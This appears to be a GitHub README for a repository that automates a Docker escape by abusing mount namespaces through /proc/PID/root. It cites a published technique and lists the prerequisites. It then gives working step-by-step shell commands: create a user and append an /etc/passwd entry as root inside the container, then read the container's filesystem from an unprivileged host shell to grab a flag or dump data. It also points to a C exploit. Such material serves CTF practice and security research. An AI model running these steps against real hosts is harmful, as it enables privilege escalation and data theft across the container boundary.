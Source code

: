 # Abusing mount namespaces through /proc/*PID*/root

In this repository I come to automate the namespace technique to escape from a Docker and elevate privileges/remove the flag/dump data, etcetera. You can read in more detail this technique [here](https://labs.withsecure.com/publications/abusing-the-access-to-mount-namespaces-through-procpidroot). In order to perform this technique successfully you need to fulfill the following requirements.

- Shell as non-privileged user on host
- Shell as root on the Docker.

Exploit:

**The following steps you must run them in the Docker as root.**

``` shell
useradd luk4s # This user must exist on the host machine.
usermod -aG luk4s luk4s
echo "luk4s:x:1000:1000:luk4s:/home/luk4s:/bin/bash" >> /etc/passwd # The content can be taken out of the machine host -> grep luk4s /etc/paswd
su luk4s
/bin/sh # We run this command when we gain shell as luk4s in the container
```

With this we are ready to work on the container.

**The following commands must be executed from the hosts machine.**

``` shell
ps aux | grep sh # You will notice a process that runs your user with a sh, this was the process you created in the container
grep -a "flag" /proc/<pid>/root/sda
```

PoC:

![](https://i.imgur.com/7FyR5qG.png)

## Automation

Program a C script which automates the steps to follow in the container, if you want to use the binary you compile it using `gcc` and upload it to Docker.

``` shell
gcc exploit.c -o exploit
```
